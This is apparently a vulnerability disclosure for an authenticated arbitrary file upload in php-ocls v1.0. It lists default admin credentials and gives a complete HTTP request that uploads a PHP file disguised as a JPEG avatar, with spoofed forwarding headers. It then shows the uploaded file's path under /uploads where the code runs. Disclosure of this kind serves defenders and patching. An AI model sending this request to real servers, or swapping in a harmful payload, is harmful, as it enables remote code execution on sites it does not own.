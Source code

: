 # php-ocls<=v1.0 Authenticated Arbitrary File Upload

## Description

    php-ocls<=v1.0 /php-ocls/classes/Users.php?f=save interface has an authenticated arbitrary file upload vulnerability

## source code

    php-ocls<=1.0
    Software Link: https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. login system(default: admin:admin&123)

   /php-ocls/admin/login.php

| ![image-20240816163739350](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20File%20Upload.assets/image-20240816163739350.png) |
| ------------------------------------------------------------ |

2. upload Avatar

| ![](https://raw.githubusercontent.com/0xffaaa/cve/mainphp-ocls-Arbitrary%20File%20Upload.assets/image-20240816163815702.png) |
| ------------------------------------------------------------ |
| ![image-20240816163931495](E:\Desktop\webRay\cve挖掘\cve提交\php-ocls-Arbitrary File Upload.assets\image-20240816163931495.png) |

```http
POST /php-ocls/classes/Users.php?f=save HTTP/1.1
Host: 172.20.10.166:8080
Content-Length: 6464
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvOPdJlKG9BB6Qoca
Origin: http://172.20.10.166:8080
Referer: http://172.20.10.166:8080/php-ocls/admin/?page=user
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=e2vdjl8cstkt92494q3ru73n2q
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="firstname"

Adminstrator
------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="lastname"

Admin
------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="img"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundaryvOPdJlKG9BB6Qoca--

```

3. Accessing avatars

| ![image-20240816164005374](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20File%20Upload.assets/image-20240816164005374.png) |
| ------------------------------------------------------------ |

> /php-ocls/uploads/1723797540_1.php

| ![image-20240816164104754](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20File%20Upload.assets/image-20240816164104754.png) |
| ------------------------------------------------------------ |

